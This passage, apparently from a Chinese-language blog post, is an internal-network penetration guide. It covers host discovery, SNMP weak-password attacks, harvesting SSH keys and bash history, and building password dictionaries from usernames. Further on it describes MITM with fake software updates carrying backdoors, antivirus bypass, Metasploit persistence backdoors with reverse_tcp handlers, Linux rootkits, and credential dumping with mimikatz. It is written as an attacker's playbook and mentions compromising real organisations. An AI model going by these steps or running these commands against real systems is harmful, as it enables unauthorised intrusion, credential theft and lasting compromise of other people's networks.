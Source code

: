 ## Misc-center

1. nmap -sP 172.19.16.1/24   发现扫描主机.

2. 查看 host 获取局域网信息.

3. 直接攻击网段路由或交换机，简单绘制内网的结构
（我在从TCL某漏洞看内网渗透教学分享之内网信息探测和后渗透准备中就是获取了cisco路由的privilege15权限，得到了内网结构，进一步进行跨vlan攻击）


4. 多尝试交换机snmp弱口令，一旦成功，内网结构清晰


	•	关于snmp渗透  
	什么是snmp  
	使用了snmp管理的设备，只需要community string即可，所以针对这个string爆破或者社工都是可行的，默认public/private  
	首先进行161端口扫描，发现snmp开放情况，通过弱口令查看设备信息，在oid中读取设备密码  
	￼
	•	  
	例子：中国移动集团华为三层交换SNMP漏洞，可获取管理帐号密码，已成功登录  
	可以通过这个nmap和msf脚本进行自动攻击h3c-pt-tools
	•	尝试从主机的用户目录或者管理运维邮箱寻找敏感信息(某次渗透即是keylogger运维后在测试机桌面获取到拓扑和网段)  
	￼
	•	
	•	通过resolv.conf找到内网dns服务器，或者字典穷举dns
	•	注意分析用户的.bash_history，一般可以分析出用户的使用习惯，纪录等,获取/.shh/，尝试配合history的连接纪录直接通过密钥登陆其他机器
0x03 内网渗透的常见攻击技巧

•	通过之前的信息收集和探测，判断出主要的业务机器，如OA，dbserver，利用ssh信任，连入机器后导出员工的userlist，做成针对性的字典，大部分内网的安全性都是脆弱的，且最容易出问题的就是口令安全（大公司也不例外）  
%username%1  
%username%12  
%username%123  
%username%1234  
%username%12345  
%username%123456

主要对ssh,dbserver,vnc,ftp进行爆破
￼
•	对开了web service的server进行常规渗透，有可以减少工作量的办法就是先对机器批量识别banner，通过banner判断出cms或中间件，直接利用exp
•	中间人攻击
常用ettercap，不建议做arp的mitm，可以尝试dhcp mitm或者icmp mitm
也可以猥琐一点，劫持插件，攻击网关，或者利用evilgrade去伪造软件更新(如notepad++)，然后捆绑上后门，直接打下工作机器，进入办公网
￼
￼
简单配置后用msf生成后门，start即可配合ettercap使用伪造软件更新了
￼
•	常见服务漏洞攻击  
smb/ms08067/ipc$/NetBIOS…………
但是在针对这些比较古老的漏洞攻击时，很可能有AV拦截，所以在不同场景遇到的坑都不一样
比如之前在西电DM牛告诉我，有AV，如果直接利用psexec返回会话，即会拦截，这时就可以利用powershell来bypass AVPowershell tricks::Bypass AV
0x04 后渗透准备和扩大战果

一次完美的内网渗透肯定不是能够一次性完成的，因为整个过程需要管理员的"配合"（口胡。。。）所以后渗透准备时很有必要的
1. 后门准备

msf的后门已经不错，只需要稍加改造就能很好满足我们的需求
普通msfpayload生成的后门不是持续性的，不利于我们下次继续工作，所以需要一个持续性后门
msf的持续性后门有两种，通过服务启动(metsvc)和通过启动项启动(persistence)
通过服务的后门有个弊端，服务名称是meterpreter，利用方式是： 上传后门，通过metsvc安装服务
1
2
3
4
5
meterpreter \> run metsvc
...(设定端口，并且上传后门文件)
use exploit/multi/handler
set PAYLOAD windows/metsvc_bind_tcp
exploit
通过启动项的利用方式：
1
2
3
4
5
meterpreter \> run persistence -X -i 10 -p port -r hostip
 
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
当然，直接生成的后门有可能会被杀，所以这里我推荐一个很不错的工具，veil，之前再一次小型apt中用这个生成了的后门直接bypass了360
linux下有两个常用的后门
mafix rookit和Cymothoa，后者听说可以克隆root用户，不过大部分的backdoor基本都相当于一个加密nc，会新开端口，所以如果webshell存活，可以直接考虑用webshell维持权限





3. hash

mimikatz，不用多说，利用meterpreter可以直接load模块
Quarks PwDump
wce
0x05 something else

内网渗透涉及的面很广，本文主要说到的是一些很简单的问题和常规的思路
尚未谈到的 域渗透 打印机 办公网嗅探 入侵日志清理等等
如果有机会，日后慢慢补全




